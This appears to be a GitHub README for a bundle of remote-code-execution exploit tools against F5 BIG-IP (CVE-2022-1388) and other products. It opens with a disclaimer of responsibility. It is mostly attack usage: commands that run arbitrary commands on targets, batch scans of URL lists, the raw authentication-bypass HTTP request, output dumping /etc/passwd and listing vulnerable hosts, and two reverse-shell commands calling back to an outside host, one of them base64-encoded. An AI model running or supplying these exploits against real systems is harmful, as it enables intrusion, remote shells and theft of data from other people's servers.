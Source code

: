 # 2022-2021-RCE

!!!WARNING!!!
I AM NOT RESPONSIBLE FOR ANY ACTIVITY OF THE USAGE OF THIS TOOL

I modified it so you can use CVE-2022/CVE-2021 and F5 BIG-IP RCE vuln checks and exploiters


but all you gotta do is do python check.py to see all cmds

<strong>2021/CVE_2021 Basic use</strong>
```
python3 CVE_2021.py
```
```
Vuln check: python3 CVE_2021_.py -v true -u https://192.168.174.164
```
```
command execute: python3 CVE_2021.py -a true -u https://192.168.174.164 -c id
```
```
python3 CVE_2021.py -a true -u https://192.168.174.164 -c whoami
```
```
batch scan: python3 CVE_2021_.py -s true -f url.txt
```
```
Reserve Shell: python3 CVE_2021.py -r true -u https://192.168.174.164 -c "bash -i >&/dev/tcp/192.168.174.129/8888 0>&1"
```
```
New POC: python3 newpoc.py https://192.168.174.164
```
```
Validation mode：python CVE_2021.py -v true -u target_url 
```
```
Attack mode：python CVE_2021.py -a true -u target_url -c command 
```
```
Batch detection：python CVE_2021.py -s true -f file
```
```
Bounce mode：python CVE_2021.py -r true -u target_url -c command 
```
<strong>2022/Check.py Basic use</strong>

Vulnerability name: F5 BIG-IP iControl Rest API exposed Check

```
Function: single detection, batch detection    
```
```
Single detection：python exp.py -u url
```
```
Batch detection：python exp.py -f url.txt
```
```
Check: python check.py -f url.txt
```
<strong>2022/CVE-1388.py basic usage</strong>

this is the CVE-2022-1388 REST Auth Bypass RCE

```http
POST /mgmt/tm/util/bash HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close, X-F5-Auth-Token, X-Forwarded-For, Local-Ip-From-Httpd, X-F5-New-Authtok-Reqd, X-Forwarded-Server, X-Forwarded-Host
Content-type: application/json
X-F5-Auth-Token: anything
Authorization: Basic YWRtaW46
Content-Length: 42

{"command": "run", "utilCmdArgs": "-c id"}
```

Vulnerability detection against a URL.

```bash
$ python CVE-2022-1388.py -u https://192.168.2.110
[+] https://192.168.2.110 is vulnerable!!!
```

Execute arbitrary commands.

```bash
$ python CVE-2022-1388.py -u https://192.168.2.110 -c 'cat /etc/passwd'
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
tmshnobody:x:32765:32765:tmshnobody:/:/sbin/nologin
admin:x:0:500:Admin User:/home/admin:/usr/bin/tmsh
qemu:x:107:107:qemu user:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
oprofile:x:16:16:Special user account to be used by OProfile:/:/sbin/nologin
syscheck:x:199:10::/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
rpc:x:32:32:Portmapper RPC user:/:/sbin/nologin
f5_remoteuser:x:499:499:f5 remote user account:/home/f5_remoteuser:/sbin/nologin
......
```

Read all URLs in the file and perform vulnerability detection.

```bash
$ python CVE-2022-1388.py -f urls.txt
[-] https://10.1.6.5 is not vulnerable.
[+] https://10.1.92.34 is vulnerable!!!
[+] https://10.2.124.144 is vulnerable!!!
[+] https://10.1.194.22 is vulnerable!!!
[+] https://10.2.21.132 is vulnerable!!!
[+] https://10.1.236.2 is vulnerable!!!
[+] https://10.3.155.2 is vulnerable!!!
[+] https://10.2.155.4 is vulnerable!!!
[+] https://10.3.151.92 is vulnerable!!!
[+] https://10.4.139.131 is vulnerable!!!
[+] https://10.7.226.141 is vulnerable!!!
[+] https://10.1.129.53 is vulnerable!!!
[+] https://10.9.45.2 is vulnerable!!!
[+] https://10.5.96.105 is vulnerable!!!
[+] https://10.3.156.6 is vulnerable!!!
$ cat success.txt
https://10.1.92.34
https://10.2.124.144
https://10.1.194.22
https://10.2.21.132
https://10.1.236.2
https://10.3.155.2
https://10.2.155.4
https://10.3.151.92
https://10.4.139.131
https://10.7.226.141
https://10.1.129.53
https://10.9.45.2
https://10.5.96.105
https://10.3.156.6
```
<strong>exp.py basic usage</strong>

```
       Validation mode：python CVE_2022.py -v true -u target_url 
       Attack mode：python CVE_2022.py -a true -u target_url -c command 
       Batch detection：python CVE_2022.py -s true -f file
       Bounce mode：python CVE_2022.py -r true -u target_url -c command 
      ================================================================
       Validation mode：python exp.py -v true -u target_url 
       Attack mode：python exp.py -a true -u target_url -c command 
       Batch detection：python exp.py -s true -f file
       Bounce mode：python exp.py -r true -u target_url -c command 
```

<strong>CVE-26133.py basic usage</strong>

```
python3 CVE-2022-26133.py -u http://192.168.110.136:7990 -f target.txt
```
```
usage: CVE-26133.py [-h] [-u URL] [--verify] [-c COMMAND] [-f FILE]
```
```
optional arguments:
  -h, --help  show this help message and exit
  -u URL      input target url, eg: http://192.168.1.1:7990/
  --verify    verify mode, verify if target is vulnerable.
  -c COMMAND  exploit mode, eg: bash -c
              {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjExMC4xLzQ0NDQgMD4mMQ==}|{base64,-d}|{bash,-i}
  -f FILE     verify targets in the file if vulnerable.
  ```
